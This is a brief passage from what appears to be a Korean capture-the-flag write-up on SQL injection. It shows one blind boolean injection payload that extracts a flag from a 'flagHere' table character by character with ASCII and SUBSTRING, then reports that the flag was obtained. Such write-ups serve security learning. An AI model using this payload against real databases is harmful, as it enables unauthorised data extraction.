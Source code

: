 - **최종 플래그 값 추출:**
```sql
118 or ASCII(SUBSTRING((select flag from flagHere LIMIT ?,1),?,1))=? and 1=1
```

![플래그](/assets/web-screenshots/sqli-point/sqli_9_flag.png)

**이렇게 최종적으로 flag를 획득 했다.**
